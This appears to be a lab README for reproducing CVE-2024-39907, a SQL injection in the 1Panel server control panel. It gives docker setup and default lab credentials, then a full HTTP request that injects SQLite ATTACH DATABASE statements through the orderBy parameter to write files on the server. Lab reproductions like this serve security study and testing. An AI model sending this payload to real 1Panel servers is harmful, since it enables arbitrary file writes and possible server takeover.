 # SQL Injection Vulnerability in 1Panel Control Panel (CVE-2024-39907)

[中文版本(Chinese version)](README.zh-cn.md)

1Panel is a web-based Linux server management control panel that provides a graphical interface for server administration.

CVE-2024-39907 is a collection of multiple SQL injection vulnerabilities present in the 1Panel control panel. These vulnerabilities exist across several interfaces of 1Panel, where insufficient filtering could allow attackers to achieve arbitrary file writes and ultimately remote code execution (RCE). This vulnerability affects 1Panel versions v1.10.9-lts and earlier, and has been patched in v1.10.12-lts.

References:

- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml>
- <https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-5grx-v727-qmq6>
- <https://hub.docker.com/r/moelin/1panel>

## Environment Setup

Execute the following command to start a vulnerable instance of 1Panel v1.10.10-lts:

```
docker compose up -d
```

After the server starts, access `http://your-ip:10086/entrance` using the following default credentials:

- Port: `10086`
- Username: `1panel`
- Password: `1panel_password`
- Entrance path: `entrance`

## Vulnerability Reproduction

After logging into the 1Panel control panel with the default credentials, the vulnerability exists in the `/api/v1/hosts/command/search` endpoint where the `orderBy` parameter lacks proper input validation, allowing SQL injection attacks.

Send the following malicious POST request to exploit the vulnerability:

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: your-ip:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=your-session-cookie
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

The malicious payload in the `orderBy` parameter exploits SQLite's ATTACH DATABASE functionality to create arbitrary files on the server filesystem, demonstrating successful SQL injection. When processed, the 1Panel backend executes the injected SQL commands without validation, confirming the vulnerability exists and can be exploited.

![1](1.png)

The successful execution of these database manipulation commands confirms that the SQL injection vulnerability can be exploited to achieve potential remote code execution.
